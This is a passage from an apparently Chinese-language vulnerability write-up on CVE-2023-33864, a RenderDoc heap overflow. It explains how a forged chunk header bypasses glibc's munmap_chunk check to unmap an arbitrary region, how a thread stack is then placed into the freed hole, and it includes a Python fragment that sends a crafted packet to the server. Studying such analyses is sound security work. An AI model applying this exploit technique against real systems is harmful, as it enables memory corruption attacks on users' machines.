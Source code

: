 如此溢出是为了释放 new callstack 缓冲区的时候，绕过 munmap_chunk 的检查，实现任意地址、任意长度内存区域的 munmap。

中间之所以要夹一个释放状态的 old callstack，是因为在释放 new callstack 之前会先释放 m_BufferBase ，要通过相邻的 old callstack 来检查 m_BufferBase 是否被破坏。若中间不夹一个 old callstack 那么释放 m_BufferBase 的时候就会 panic。

当释放 new callstack 的时候，new callstack 本身的地址为 0x7fdcac012000，由于堆溢出 prev_size = 0xfffffffffec12000，size = 0x1bef007，这样不仅绕过了if检查，而且最终的 munmap的参数形态为：__munmap((char *) 0x7fdcad400000, 0x81000);

```c
static void munmap_chunk (mchunkptr p)
{
  size_t pagesize = GLRO (dl_pagesize);
  INTERNAL_SIZE_T size = chunksize (p);
  
  assert (chunk_is_mmapped (p));
	...
  uintptr_t mem = (uintptr_t) chunk2mem (p);
  uintptr_t block = (uintptr_t) p - prev_size (p);
  size_t total_size = prev_size (p) + size;
  
  if (__glibc_unlikely ((block | total_size) & (pagesize - 1)) != 0
      || __glibc_unlikely (!powerof2 (mem & (pagesize - 1))))
    malloc_printerr ("munmap_chunk(): invalid pointer");
	...
  __munmap ((char *) block, total_size);
}
```

因此造成了任意地址 munmap，在 GAP 内存区域得到了一块未被映射的内存。

在前面的第 2 步堆喷射中，GAP 区域被全部占满。任意地址 munmap 之后，在 GAP 区域造成了一块长度为 0x81000 的空洞，该空洞距离 new callstack 大约为 19MB。

当下一个 client 调试线程起来的时候，线程栈就会占据这个空洞。

![renderdoc-第 7 页.jpg](/assets/posts/2025-05-27-CVE-2023-33864-RenderDoc堆溢出漏洞分析/renderdoc-%E7%AC%AC_7_%E9%A1%B5.jpg)

1. 连接 server ，分配一个 client 调试线程，该线程会占据上述内存空洞。
    
    这个线程对应的 client name 是 “tmptmp”，该线程后面是要被替换掉的。
    

```python
def tmp_thread(ip, port):
    s = socket(AF_INET, SOCK_STREAM)
    s.connect((ip, port))
    packet = p32(0x2) + p32(0) + p32(9) + p32(0x6) + b'tmptmp' + p32(0) + b'a'*0x40
    s.sendall(packet)
    while True:
        pass

th_tmp = threading.Thread(target=tmp_thread, args=(ip, port))
th_tmp.start()
```
